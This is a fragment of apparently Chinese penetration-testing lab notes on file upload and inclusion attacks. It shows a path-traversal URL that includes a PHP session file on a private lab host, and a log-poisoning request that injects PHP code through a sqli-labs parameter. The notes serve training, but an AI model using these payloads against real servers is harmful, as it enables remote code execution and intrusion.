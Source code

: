```
http://172.16.12.2/?target=db_sql.php%253f/../../../../../../../phpstudy/tmp/tmp/sess_q939q8srnllsfi8s7ipanodnh8bgcfu5
```

![image-20210725000554895](文件上传/image-20210725000554895.png)



访问地址GET /sqli/Less-14/?id=<?php%20phpinfo();?>  但是apache对目录没有访问权限，此方法针对特殊情况 apache对日志文件有执行权限

![image-20210723153533012](文件上传/image-20210723153533012.png)
